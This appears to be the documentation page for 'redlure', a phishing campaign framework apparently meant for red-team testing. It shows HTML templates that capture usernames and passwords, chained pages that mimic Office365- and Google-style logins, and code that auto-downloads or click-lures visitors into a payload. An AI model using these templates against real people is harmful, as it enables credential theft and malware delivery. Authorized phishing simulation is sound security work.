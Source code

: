 # Pages
The pages component is where you can store HTML templates to serve with your phishing campaigns. redlure lets you chain up to 4 templates together in 1 campaign (through the use of buttons or your mechanism of choice).

You can attempt to clone an existing webpage or build your own template in the [CodeMirror](https://codemirror.net/) editor.
![](../gitbook/images/newpage.png)

# IMPORTANT
Templates have three requirements to function the way you want, assuming you are collecting form data:
1. The HTML `form` tag must have the `method` attribute set to `POST`
2. The HTML `form` tag must have the `action` attribute set to `{{ next_url }}`
3. `Input` fields you want to capture must have the `name` attribute set.
4. The HTML form must include a button that submits the form (i.e. `input` tag with `type="submit"`)

Example:
```html
<form action="{{ next_url }}" method="POST">
    <input class="input-box" name="username" type="text">
    <input class="input-box" name="password" type="password"> 
    <input class="submit" type="submit" value="Sign In">
</form>
```

## Chaining Templates
The `{{ next_url }}` variable is used within page templates to direct visitors to the next phishing template in sequence.

# Variable (Username/Email) Passthrough
To mimic multi-page logins that display your username on the password form page (think Office365, Google), you can use to following variables within your HTML. These __*cannot*__ be used on your first landing page in a sequence; a form with an input field named one of these values must be submitted on the prior page.
- {%raw%}`{{ loginfmt }}`{%endraw%} - Will display value from the prior page's form input where `name="loginfmt"`
- {%raw%}`{{ email }}`{%endraw%} - Will display value from the prior page's form input where `name="email"`
- {%raw%}`{{ username }}`{%endraw%} - Will display value from the prior page's form input where `name="username"`

# Serving a payload
When you configure a campaign you can optionally select a payload you've uploaded to your server/worker and set a URL path for it to be served at. A link to the payload route can be sent directly via email or it can be referenced as a variable in your HTML page template, in 1 of 2 ways:
1. Automatically download file when your page is browsed to
2. Download the file when a button is pressed or another action is taken

## Auto Download on Page Visit
To drop a payload when a visitor hits your redlure page, add the `{{ serve_payload }}` to your HTML page template. Example:
```html
<!DOCTYPE html>
<html>
<head></head>
<body>

     <!-- SNIPPED HTML CONTENT -->

</body>

{{ serve_payload }}

</html>
```
 When your page is rendered the variable with be replaced with:
 `<meta http-equiv="refresh" content="0; url=http[s]://yourdomain.com/custom/payload/path?id=[visitor_id]">`
This could be done by other means, such as directly inserting the `<meta>` tag in the page template, but I've found this will usually throw WYSISYG editors for a loop when previewing your page.
## Download on Action
If you want to place your payload download behind a click using a button or hyperlink, you can use the `{{ payload_url }}` within your page template. Example:
```html
<p><a href="{{ payload_url }}" style="cursor: pointer;">Click here</a> if the download does not begin.</p>

<!-- OR -->

<form action="{{ payload_url }}" method="GET">
    <button class="submit" type="submit">Download</button>
</form>
```



